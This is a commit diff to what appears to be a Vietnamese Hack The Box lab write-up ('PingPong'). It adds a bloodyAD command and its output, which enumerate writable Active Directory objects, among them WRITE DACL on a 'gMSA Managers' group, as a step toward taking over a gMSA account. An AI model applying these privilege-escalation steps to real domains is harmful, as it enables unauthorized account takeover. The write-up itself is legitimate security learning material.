

Before and after one commit to Luv3rie/Luv3rie.github.io, a Jekyll site: the page built from _posts/2026-11-12-htb-pingpong.md, in a window 1280 px wide and 900 px high, scrolled down 7559 px. Shown: the whole window, without its empty margins (256-1266 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix htb-pingpong 4

````diff
--- a/_posts/2026-11-12-htb-pingpong.md
+++ b/_posts/2026-11-12-htb-pingpong.md
@@ -430,6 +430,22 @@ LDAP        DC2             389    DC2              Pong_gMSA$
 ```
 
 ## 5. Chiếm lấy Pong_gMSA$
+
+```bash
+~/HTB/Windows/PingPong $ bloodyad -k -d ping.htb -H DC2.pong.htb get writable
+
+distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=pong,DC=htb
+permission: WRITE
+
+distinguishedName: CN=gMSA Managers,CN=Users,DC=pong,DC=htb
+DACL: WRITE
+
+distinguishedName: DC=pong.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=pong,DC=htb
+permission: CREATE_CHILD
+
+distinguishedName: DC=_msdcs.pong.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=pong,DC=htb
+permission: CREATE_CHILD
+```
 
 BloodyAD cho biết cậu này có quyền writeDACL lên nhóm `gMSA Managers`, nhưng mà gượm đã, ta chưa thể lạm dụng nó luôn được.
 Nhóm này nằm ở rừng bên, muốn gia nhập phải đổi loại của nó sang DomainLocal.
````
Also changed, not shown: 1 other file.
